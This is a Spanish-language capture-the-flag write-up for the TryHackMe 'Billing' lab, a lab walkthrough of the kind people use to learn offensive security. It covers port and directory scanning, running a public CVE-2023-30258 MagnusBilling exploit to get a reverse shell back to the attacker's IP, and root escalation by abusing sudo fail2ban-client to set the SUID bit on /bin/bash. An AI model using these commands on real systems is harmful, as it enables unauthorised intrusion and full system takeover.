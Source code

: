 ```yaml
---
description: '✍️ Autor: tryhackme, RunasRs 🔍 Dificultad: Fácil'
---
```


# Billing

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.118.35
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.118.35
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el puerto **22** perteneciente al servicio **SSH,** el puerto **80** perteneciente al servicio **HTTP** y el puerto **3306** perteneciente a **MySQL** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 10.10.118.35
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 213144.png" alt=""><figcaption></figcaption></figure>

Es un panel de **MagnusBilling** por lo que ahora haremos un escaneo de directorios por si hay algo relevante.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://10.10.118.35
```

Encontramos un directorio interesante donde nos menciona la versión y así poder encontrar vulnerabilidad.&#x20;

<div><figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 215053.png" alt=""><figcaption></figcaption></figure></div>

### 🚀 **EXPLOTACIÓN**

{% @github-files/github-code-block url="https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit" %}

```
git clone https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit.git
cd CVE-2023-30258-magnus-billing-v7-exploit
```

Realizamos la Reverse Shell.

```
nc -nlvp 4444
python3 exploit.py -t 10.10.118.35 -a 10.8.146.101 -p 4444
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY.

```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Tenemos permiso sudo del binario **fail2ban-client**.

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/" %}

```bash
sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client get ast-cli-attck actions
sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil
sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5
/bin/bash -p
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
